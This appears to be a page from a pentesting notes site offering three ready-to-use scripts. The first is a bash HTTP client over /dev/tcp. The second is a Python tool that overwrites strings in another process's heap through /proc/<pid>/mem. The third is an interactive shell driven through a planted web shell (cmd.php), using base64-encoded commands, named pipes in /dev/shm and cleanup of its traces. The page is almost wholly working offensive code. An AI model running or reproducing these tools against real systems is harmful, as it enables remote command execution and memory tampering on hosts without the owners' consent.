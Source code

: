 
  title: '',
  description: '',
}

  { title: '__curl', id: '__curl', },
  { title: 'Hack memory process', id: 'hack-mem-proc', },
  { title: 'TTY over HTTP', id: 'tty-over-http', },
]

<HeroPattern />

# Scripts

## __curl {{ id: '__curl' }}

This is a simple implementation of `curl` using bash.

```bash
function __curl() {
  read -r proto server path <<<"$(printf '%s' "${1//// }")"
  if [ "$proto" != "http:" ]; then
    printf >&2 "sorry, %s supports only http\n" "${FUNCNAME[0]}"
    return 1
  fi
  DOC=/${path// //}
  HOST=${server//:*}
  PORT=${server//*:}
  [ "${HOST}" = "${PORT}" ] && PORT=80

  exec 3<>"/dev/tcp/${HOST}/$PORT"
  printf 'GET %s HTTP/1.0\r\nHost: %s\r\n\r\n' "${DOC}" "${HOST}" >&3
  (while read -r line; do
   [ "$line" = $'\r' ] && break
  done && cat) <&3
  exec 3>&-
}
```

## Hack memory process {{ id: 'hack-mem-proc' }}

This is a simple script to read and write to the heap of a process in Linux.

```bash
#!/usr/bin/env python3

from sys import argv, exit


def print_usage():
    """Print the usage string if script was used improperly"""
    print(
        "Usage: \
                \t$ {} <pid> <string to read> <string to write>".format(argv[0])
    )
    exit(1)


def read_write_heap(pid, read_str, write_str):
    """Find @read_str in the heap of @pid and replace it with @write_str"""
    try:
        maps_file = open("/proc/{}/maps".format(pid), "r")
    except IOError as e:
        print("Can't open file /proc/{}/maps: IOError: {}".format(pid, e))
        exit(1)
    heap_info = None
    for line in maps_file:
        if "heap" in line:
            heap_info = line.split()
    maps_file.close()
    if heap_info is None:
        print("No heap found!")
        exit(1)
    addr = heap_info[0].split("-")
    perms = heap_info[1]
    if "r" not in perms or "w" not in perms:
        print("Heap does not have read and/or write permission")
        exit(0)
    try:
        mem_file = open("/proc/{}/mem".format(pid), "rb+")
    except IOError as e:
        print("Can't open file /proc/{}/maps: IOError: {}".format(pid, e))
        exit(1)
    heap_start = int(addr[0], 16)
    heap_end = int(addr[1], 16)
    mem_file.seek(heap_start)
    heap = mem_file.read(heap_end - heap_start)
    str_offset = heap.find(bytes(read_str, "ASCII"))
    if str_offset < 0:
        print("Can't find {} in /proc/{}/mem".format(read_str, pid))
        exit(1)
    mem_file.seek(heap_start + str_offset)
    diff = len(read_str) - len(write_str) + 1
    if diff > 0:
        write_str += " " * diff
    mem_file.write(bytes(write_str, "ASCII"))


if len(argv) == 4:
    pid = argv[1]
    search_str = argv[2]
    replace_str = argv[3]
    read_write_heap(pid, search_str, replace_str)
else:
    print_usage()
```

## TTY over HTTP {{ id: 'tty-over-http' }}

This is a interactive TTY using HTTP implemented in Python3

```python
#!/bin/python3

import requests, threading, signal, time, sys
from random import randrange
from base64 import b64encode


def handler(sig, frame):
    print("\n\n[!] Exiting...\n")
    run_cmd(erase_stdin)
    run_cmd(erase_stdout)
    sys.exit(1)


signal.signal(signal.SIGINT, handler)

main_url = "http://localhost/cmd.php"
session = randrange(1000, 9999)
stdin = "/dev/shm/%s.input" % session
stdout = "/dev/shm/%s.output" % session
erase_stdin = "/bin/rm %s" % stdin
erase_stdout = "/bin/rm %s" % stdout


class all_the_reads(object):
    def __init__(self, interval=1):
        self.interval = interval
        thread = threading.Thread(target=self.run, args=())
        thread.daemon = True
        thread.start()

    def run(self):
        clear_output = "echo '' > %s" % stdout
        read_output = "/bin/cat %s" % stdout

        while True:
            output = run_cmd(read_output)
            if output:
                run_cmd(clear_output)
                print(output)

            time.sleep(self.interval)


def run_cmd(cmd):
    cmd = cmd.encode()
    cmd = b64encode(cmd).decode()

    post_data = {"cmd": "echo %s | base64 -d | bash" % cmd}

    r = (requests.post(main_url, data=post_data, timeout=5).text).strip()

    return r


def setup_shell():
    named_pipes = """mkfifo %s; tail -f %s | /bin/sh 2>&1 > %s""" % (
        stdin,
        stdin,
        stdout,
    )

    try:
        run_cmd(named_pipes)
    except:
        None

    return None


def write_cmd(cmd):
    cmd = cmd.encode()
    cmd = b64encode(cmd).decode()

    post_data = {"cmd": "echo %s | base64 -d > %s" % (cmd, stdin)}

    r = (requests.post(main_url, data=post_data, timeout=5).text).strip()


def read_cmd():
    read_output = "/bin/cat %s" % stdout
    output = run_cmd(read_output)
    return output


if __name__ == "__main__":
    setup_shell()
    read_all_threads = all_the_reads()
    while True:
        command = input("> ")
        write_cmd(command + "\n")

```
